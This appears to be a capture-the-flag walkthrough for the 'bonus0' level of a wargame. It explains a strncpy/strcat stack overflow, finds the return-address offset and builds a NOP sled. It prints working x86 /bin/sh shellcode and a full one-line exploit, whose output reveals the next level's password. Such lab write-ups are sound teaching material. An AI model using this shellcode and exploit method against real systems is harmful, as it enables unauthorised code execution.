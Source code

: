 # Bonus0

This walkthrough explains the `bonus0` → `bonus1` exploitation, step by step, with detailed explanations for every concept.

---

## 1. Program behavior

Running `./bonus0` asks for two inputs, separated by a space.  
The program concatenates them and prints the result:

```bash
$ ./bonus0
 -
Hey
 -
lesfi
Hey lesfi
```

---

## 2. Functions overview

Using `info functions` in gdb, we see three key functions:

- `main()`  
- `pp()`  
- `p()`  

Disassembly reveals:

- `main()` → calls `pp()`, then prints the buffer with `puts()`.
- `pp()` → calls `p()` twice (to read both inputs a and b), then concatenates them into the buffer.
- `p()` → reads up to 4096 characters into a large buffer (without always ensuring null termination) and then uses `strncpy()` to copy at most 20 chars into smaller buffers.

---

## 3. Vulnerability explanation

- The `p()` function reads into a **4096‑byte local buffer**.
- Then it copies **up to 20 bytes** into another buffer via `strncpy()`.
- If the source string is **20 bytes or longer**, the **\n is not replaced by \0**.
- The result: when both inputs are merged, the buffer can grow larger than expected.

If `arg1` is exactly 20 bytes (no `\0`), the concatenation can keep going. 
But because of how the program reuses buffers and concatenates again, the real size can reach **61 bytes** before hitting the vulnerable buffer of size **42 bytes**.
This leads to:

```
20 (arg1) + 1 (space) + up to 20 (arg2) = 41 bytes
but there's another user of strcat adding 20 bytes :
20 + 20 + 1 + 20 = 61 bytes
```
---

## 4. Finding the offset

To know where `EIP` is overwritten, we use a pattern:

```bash
$ ./bonus0
 -
01234567890123456789
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9...
```

Result in gdb:

```
EIP = 0x41336141
```

This corresponds to offset **9** inside the second argument.

---

## 5. Buffer address

In gdb, setting a breakpoint inside `p()`:

```gdb
b *p+28
run
x $ebp-0x1008
```

This shows the start of the large buffer, for example:

```
0xbfffe680
```

This is where our payload (NOPs + shellcode) will land.

---

## 6. NOP sled

- `NOP` = “No Operation” (`\x90` in x86).  
- Executing it does nothing; CPU just moves to the next instruction.  
- We use a **NOP sled** = a sequence of many NOPs before our shellcode.  

Why? Because if we jump *anywhere* inside the sled, execution will “slide” until it reaches the shellcode.  
This makes our jump address much more forgiving.

---

## 7. Shellcode

The shellcode used is:

```python
"\x31\xc0\x50\x68\x2f\x2f\x73\x68" +
"\x68\x2f\x62\x69\x6e\x89\xe3\x89" +
"\xc1\x89\xc2\xb0\x0b\xcd\x80\x31" +
"\xc0\x40\xcd\x80"
```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'

It does two things:

1. Spawn a shell (`/bin/sh`)  
2. Exit cleanly

In practice we prepend it with 100+ NOPs:

```bash
python -c 'print "\x90"*100 + "<shellcode>"'
```

---

## 8. Choosing the return address

We want `EIP` to point somewhere inside the NOP sled.  
Buffer start: `0xbfffe680`  
Offset start after args: +61  
So we can safely jump to around: `0xbfffe6d0`

---

## 9. Exploit construction

- **First argument** = NOP sled + shellcode  
- **Second argument** = padding to reach offset 9 + return address + filler

Example:

```bash
# First arg
python -c 'print "\x90"*100 + "<shellcode>"'

# Second arg
python -c 'print "A"*9 + "\xd0\xe6\xff\xbf" + "B"*7'
```

---

## 10. Final exploit

```bash
(python -c 'print "\x90"*100 + "<shellcode>"';  python -c 'print "A"*9 + "\xd0\xe6\xff\xbf" + "B"*7';  cat) | ./bonus0
```

Result:

```
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

---

